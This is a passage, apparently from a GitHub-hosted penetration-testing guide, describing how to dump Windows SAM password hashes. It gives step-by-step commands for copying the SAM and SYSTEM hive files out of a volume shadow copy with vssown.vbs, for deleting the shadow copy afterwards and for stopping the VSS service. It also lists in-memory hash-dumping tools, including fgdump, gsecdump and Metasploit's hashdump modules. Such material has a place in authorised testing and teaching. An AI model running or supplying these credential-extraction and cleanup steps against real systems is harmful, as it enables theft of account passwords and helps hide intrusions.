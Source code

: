     [*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
    [*] Service machine:     LAPTOP
    [*] Set ID:              {018D7854-5A28-42AE-8B10-99138C37112F}
    [*] State:               12
    [*] Transportable:       False
    [*] Volume name:         \\?\Volume{46f5ef63-8cca-11e0-88ac-806e6f6e6963}\
    ```
    You need to take note of the Device object value for the next step and the ID for the cleanup step.

  - Pull the following files from a shadow copy:
    ```
    C:\>copy <DEVICE OBJECT>\Windows\System32\config\SYSTEM .
    C:\>copy <DEVICE OBJECT>\Windows\System32\config\SAM .

    OR

    C:\>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM .
    C:\>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM .
    ```
    You have just copied over SAM and SYSTEM files from the shadow copy to the C:\ root folder.

  - Cleanup:
    ```
    C:\>cscript vssown.vbs /delete <ID>

    OR

    C:\>cscript vssown.vbs /delete {D79A4E73-CCAB-4151-B726-55F6C5C3A853}

    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    [*] Attempting to delete shadow copy with ID: {D79A4E73-CCAB-4151-B726-55F6C5C3A853}
    ```

  - Eventually, restore to original Stop status:
    ```
    C:\>cscript vssown.vbs /stop

    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    [*] Signal sent to stop the VSS service.
    ```

### In-memory technique

* The concept behind in-memory dump of SAM hashes it to inject a DLL into the LSASS system process or, generally speaking, parsing  the memory for specific patterns and inspect these memory pages' content.

* The following tools are used:
  - [fgdump](http://foofus.net/goons/fizzgig/fgdump/), successor to [pwdump6](http://www.foofus.net/~fizzgig/pwdump/). fgdump works in Vista and later.
  - [pwdump7](http://www.foofus.net/~fizzgig/pwdump/) - cannot dump from domain controller
  - [gsecdump](http://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)
  - [PWDumpX](http://packetstormsecurity.org/files/62371/PWDumpX14.zip) - does not work on 64 bit machines
  - Metasploit Post Exploitation modules post/windows/gather/smart_hashdump
  - Metasploit Post Exploitation modules post/windows/gather/hashdump
  - Metasploit Meterpreter command - hashdump
